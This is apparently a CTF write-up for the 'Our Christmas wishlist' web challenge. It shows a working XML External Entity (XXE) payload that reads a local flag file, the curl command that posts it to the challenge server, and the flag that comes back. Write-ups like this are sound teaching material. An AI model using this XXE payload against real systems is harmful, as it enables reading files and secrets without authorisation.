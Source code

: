 # Our Christmas wishlist (Web)

Hi CTF player. If you have any questions about the writeup or challenge. Submit a issue and I will try to help you understand.

Also I might be wrong on some things. Enjoy :)

(P.S Check out my [CTF cheat sheet](https://github.com/flawwan/CTF-Candy))

![alt text](0.png "Chall")

This is a simple message board where you can submit your requests for christmas to the santa.

![alt text](1.png "Chall")

Looking at the source code of the page we find a interesting function "lol".

![alt text](2.png "Chall")

Right here I saw they were using XML which means we can probably do a XXE attack.

OWASP has a great guide on XXE:

![alt text](3.png "Owasp XXE")

Final exploit looks like this:
```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ENTITY xxe SYSTEM "file:///var/www/html/flag.txt" >]>
   <message>&xxe;</message>
```
And send the requests to the server with:
```bash
curl -X POST -H "Content-Type: application/xml" -d @payload.xml http://95.179.163.167:12001/
```

And we get the flag
```
Your wish: X-MAS{_The_Ex73rnal_Ent1t13$_W4n7_To__Jo1n_7he_p4r7y__700______}
```
